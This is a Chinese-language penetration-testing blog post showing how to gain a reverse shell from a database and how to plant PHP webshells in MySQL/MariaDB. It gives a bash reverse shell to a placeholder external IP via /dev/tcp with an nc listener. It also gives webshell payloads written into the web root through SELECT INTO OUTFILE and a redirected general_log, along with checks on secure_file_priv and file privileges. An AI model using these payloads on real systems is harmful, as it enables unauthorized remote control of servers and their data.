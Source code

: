 ```yaml
---
title: 数据库反弹shell的几种方式
toc: true
recommend: 1
uniqueId: '2021-04-28 14:23:26/reverse-shell.html'
mathJax: false
date: 2021-04-28 22:23:26
thumbnail:
tags: [webshell,MySQL,数据库]
categories: [个人技术心得,渗透]
keywords:
---
```

> 反弹shell: 将已经获取控制权的机器返回一个shell给外部机器

<!-- more -->

## 反弹BASH

**在外部机器执行的指令**

```shell
nc -l {端口}
```

nc 可以用来连接到端口通信，用法是 `nc [host] [port]`，

也可以启动本机的port进行监听，使用`-l`参数

**在需要反弹机器的数据库里执行指令**

```shell
system bash -c 'bash -i &> /dev/tcp/{外部机器IP}/{端口} <&1'
```

解读指令：

从左到右进行解读，system 是数据库用来执行系统指令的，bash就不多说了，说一下他的参数。

`-c`: 代表command，后面接命令字符串，主要是为了防止其他shell的干扰

`-i`: 交互式shell

`&>`: 将标准输出和错误进行重定向

`/dev/tcp/ip/port`: bash建立socket的一种特殊写法，除此之外还有udp

`<&1`: 把标准输入重定向到标准输出, 其他写法 `0>&1`

## WebShell

### 方法一

1. 目标机器开启80端口且PHP为后端

2. 数据库的全局变量 `secure_file_priv` 值为空，不能为NULL(不能输出文件)，如果有路径代表只能输出到该路径

```sql
MariaDB root@(none):(none)> show variables like '%secure%'
| Variable_name            | Value   |
|--------------------------|---------|
| require_secure_transport | OFF     |
| secure_auth              | ON      |
| secure_file_priv         |         |
| secure_timestamp         | NO      |
```

3. 数据库用户有输出文件权限

```sql
select group_concat(user,0x3a,file_priv) from mysql.user;
```

3. 数据库(mysql)对 **$_SERVER['DOCUMENT_ROOT']** 有写入权限
4. 对http服务根目录输出webshell

```sql
select "<?php @system($_GET['cmd']);?>" into outfile '/srv/http/houmen.php';
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/webshell.png)

### 方法二

如果上面的 `secure_file_priv` 规定了输出目录或者是NULL，还可以使用 `general_log` 的方法来写shell，general_log可以记录所有基础日志，默认关闭

1. 模糊查找关于general的信息

```sql
MariaDB root@(none):(none)> show variables like '%general%'
| Variable_name    | Value            |
|------------------|------------------|
| general_log      | OFF              |
| general_log_file |                  |
```

2. 开启general_log，设置路径

```sql
MariaDB root@(none):(none)> set global general_log = 1;
MariaDB root@(none):(none)> set global general_log_file = '/srv/http/hm.php';
MariaDB root@(none):(none)> show variables like '%general%'
| Variable_name    | Value            |
|------------------|------------------|
| general_log      | ON               |
| general_log_file | /srv/http/hm.php |
```

3. 写入数据

```sql
MariaDB root@(none):(none)> select "<?php @eval($_GET['command']);?>"
```

```php
❯ sudo cat /srv/http/hm.php 
/usr/bin/mariadbd, Version: 10.5.9-MariaDB (Arch Linux). started with:
Tcp port: 3306  Unix socket: /run/mysqld/mysqld.sock
Time                Id Command  Argument
210429 17:29:36      3 Query    select "<?php @system($_GET['cmd']);?>"
```

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static//img/article/2021/webshell2.png)

> 关于服务器权限的问题：
>
> 在我的MANJARO系统里，httpd的用户是http，mariadb的用户是mysql，默认情况下，会存在mysql无法写入，httpd无法读取的情况
>
> 这些漏洞在windows上可能可以实现

## 总结

后端只要满足三个条件就可以反弹shell

- 支持 tcp 链接
- 支持 IO 重定向
- 可以调用系统命令

> 参考文章
>
> [常见数据库写入Webshell汇总](https://www.ascotbe.com/2020/07/21/DatabaseWriteWebshell/#post-comment)
>
> [bash -i >& /dev/tcp/localhost/8080 0>&1 的含义](https://becivells.github.io/2019/01/bash_i_dev_tcp/)

